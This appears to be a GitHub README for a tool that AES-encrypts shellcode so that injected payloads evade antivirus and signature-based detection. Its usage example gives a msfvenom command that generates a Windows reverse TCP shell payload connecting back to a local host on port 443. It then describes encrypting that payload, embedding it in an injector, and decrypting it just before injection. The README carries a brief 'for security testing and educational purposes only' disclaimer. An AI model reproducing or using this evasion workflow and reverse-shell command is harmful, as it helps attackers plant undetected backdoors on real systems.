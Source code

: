 # AES_Shellcode_Encryptor

This repository contains a tool that can encrypt all type of files and give the encrypted output in the form of an encrypted shellcode. 
Process of encrypting shellcode is very important for injection processes to bypass signature based detection by the security controls.
Consider an example of using a highly detected metasploit backdoor shellcode. Now for injecting such a shellcode, we need obfuscation to bypass detection by antiviruses. 
This tool helps us in encrypting that shellcode which will be saved in the injector and decrypted just before injection.

DISCLAIMER: For security testing and educational purposes only !!!

Example:
1) create a metasploit shellcode:
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f raw -o shellcode.bin
2) enceypt it with this tool:
AES_Shellcode_Encryptor.exe shellcode.bin encrypted_code.txt mySecretEncryptionKey
3) add encrypted shellcode inside the injector
4) decrypt it with the key before injection
